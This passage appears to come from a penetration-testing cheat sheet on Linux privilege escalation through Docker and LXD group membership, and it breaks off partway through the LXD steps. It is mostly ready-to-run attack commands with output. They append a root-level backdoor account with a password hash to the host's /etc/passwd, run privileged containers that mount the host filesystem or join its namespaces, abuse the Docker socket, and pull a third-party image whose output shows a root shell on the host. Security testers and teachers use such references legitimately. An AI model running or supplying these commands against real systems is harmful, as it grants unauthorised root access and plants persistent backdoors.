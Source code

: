 
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
Almost similar but you will also see all processes running on the host and be connected to the same NICs.


docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
Or use the following docker image from chrisfosterelli to spawn a root shell


$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
More docker privilege escalation using the Docker Socket.


sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
LXC/LXD
The privesc requires to run a container with elevated privileges and mount the host filesystem inside.


╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
Build an Alpine image and start it using the flag security.privileged=true, forcing the container to interact as root with the host filesystem.


# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

